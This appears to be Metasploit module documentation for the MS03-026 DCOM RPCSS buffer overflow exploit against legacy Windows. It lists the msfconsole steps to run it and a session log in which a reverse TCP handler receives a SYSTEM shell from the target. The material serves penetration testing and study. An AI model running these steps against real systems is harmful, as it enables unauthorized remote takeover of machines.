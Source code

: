 ## Vulnerable Application

This module exploits a stack buffer overflow in the RPCSS service, this vulnerability
was originally found by the Last Stage of Delirium research group and has been
widely exploited ever since. This module can exploit the English versions of
Windows NT 4.0 SP3-6a, Windows 2000, Windows XP, and Windows 2003 all in one request :)

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/smb/ms03_026_dcom`
1. Do: `set rhosts <rhosts>`
1. Do: `run`
1. You should get a `SYSTEM` shell.

## Options

## Scenarios

### Windows 2000 Server SP4 (English)

```
msf6 exploit(windows/dcerpc/ms03_026_dcom) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] 172.16.191.164:135 - Trying target Windows NT SP3-6a/2000/XP/2003 Universal...
[*] 172.16.191.164:135 - Binding to 4d9f4ab8-7d1c-11cf-861e-0020af6e7c57:0.0@ncacn_ip_tcp:172.16.191.164[135] ...
[*] 172.16.191.164:135 - Calling DCOM RPC with payload (1648 bytes) ...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 172.16.191.164
[*] Command shell session 1 opened (172.16.191.192:4444 -> 172.16.191.164:1027 ) at 2021-11-27 23:52:35 -0500


Shell Banner:
Microsoft Windows 2000 [Version 5.00.2195]
(C) Copyright 1985-2000 Microsoft Corp.

C:\WINNT\system32>
-----
          

C:\WINNT\system32>
```
